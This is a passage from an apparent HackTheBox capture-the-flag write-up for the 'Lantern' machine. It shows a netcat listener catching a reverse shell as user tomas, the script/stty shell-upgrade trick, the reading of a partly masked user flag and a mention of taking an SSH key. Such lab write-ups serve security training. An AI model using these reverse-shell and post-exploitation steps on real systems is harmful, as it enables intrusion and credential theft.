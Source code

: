 ![image-20240822090021231](/img/image-20240822090021231.png)

And I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.29 47494
bash: cannot set terminal process group (63574): Inappropriate ioctl for device
bash: no job control in this shell
tomas@lantern:~/LanternAdmin$ 

```

I’ll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

tomas@lantern:~/LanternAdmin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
tomas@lantern:~/LanternAdmin$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
tomas@lantern:~/LanternAdmin$

```

And grab `user.txt`:

```

tomas@lantern:~$ cat user.txt
03997bf1************************

```

There’s also an SSH keypair I can grab to get SSH access as tomas.

## Shell as root

### Enumeration

#### Users

tomas is the only user on the box with a home directory in `/home`:

```

tomas@lantern:/home$ ls
tomas

```
